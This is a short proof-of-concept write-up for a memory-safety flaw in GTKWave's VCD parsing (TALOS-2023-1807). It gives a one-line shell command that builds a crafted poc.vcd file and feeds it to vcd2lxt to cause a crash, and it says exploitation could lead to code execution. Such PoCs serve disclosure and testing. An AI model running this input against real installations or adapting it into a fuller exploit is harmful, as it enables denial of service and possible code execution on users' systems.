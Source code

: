 # GTKWave VCD Sorted Bsearch Arbitrary Write Vulnerabilities (TALOS-2023-1807)

## POC URL
https://gtkwave.sourceforge.net

## Compilation Environment
- GTKWave 3.3.115 (vulnerable version)
- Tested on Linux (32-bit or 64-bit)

## Run Command
```
echo -e '$var reg 2 x x $end\n$var reg 2 x x $end\n$enddefinitions\np a a A' > poc.vcd && vcd2lxt poc.vcd
```

## Expected Output
- The vulnerable GTKWave utility (vcd2lxt) will crash due to a segmentation fault when attempting to dereference an arbitrary memory address
- The crash occurs because the sorted buffer is not initialized before calling bsearch, leading to an arbitrary read that could be turned into an arbitrary write
- Successful exploitation could lead to arbitrary code execution